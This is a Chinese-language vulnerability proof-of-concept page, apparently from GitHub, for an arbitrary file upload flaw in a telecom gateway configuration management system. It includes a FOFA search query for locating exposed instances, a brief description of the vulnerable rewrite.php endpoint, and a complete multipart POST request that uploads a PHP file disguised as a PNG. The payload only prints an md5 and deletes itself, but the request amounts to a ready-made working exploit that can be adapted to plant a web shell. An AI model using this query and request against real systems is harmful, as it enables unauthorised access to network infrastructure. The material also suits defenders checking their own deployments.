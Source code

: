 **fofa**

```
body="img/login_bg3.png" && body="系统登录"
```

**一、漏洞简述**

 电信网关配置管理系统是一个用于管理和配置电信网络中网关设备的软件系统。它可以帮助网络管理员实现对网关设备的远程监控、配置、升级和故障排除等功能，从而确保网络的正常运行和高效性能。其接口/manager/teletext/material/rewrite.php存在任意文件上传漏洞、攻击者可通过该漏洞，获取系统权限。

**二、漏洞检测poc**

```yaml
POST /manager/teletext/material/rewrite.php HTTP/1.1
Host: x.x.x.x
User-Agent: MMozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOKldnDPT
Content-Length: 300

------WebKitFormBoundaryOKldnDPT
Content-Disposition: form-data; name="tmp_name"; filename="S7ALbg.php"
Content-Type: image/png

<?php echo md5(123456);unlink(__FILE__);?>
------WebKitFormBoundaryOKldnDPT
Content-Disposition: form-data; name="uploadtime"


------WebKitFormBoundaryOKldnDPT--
```

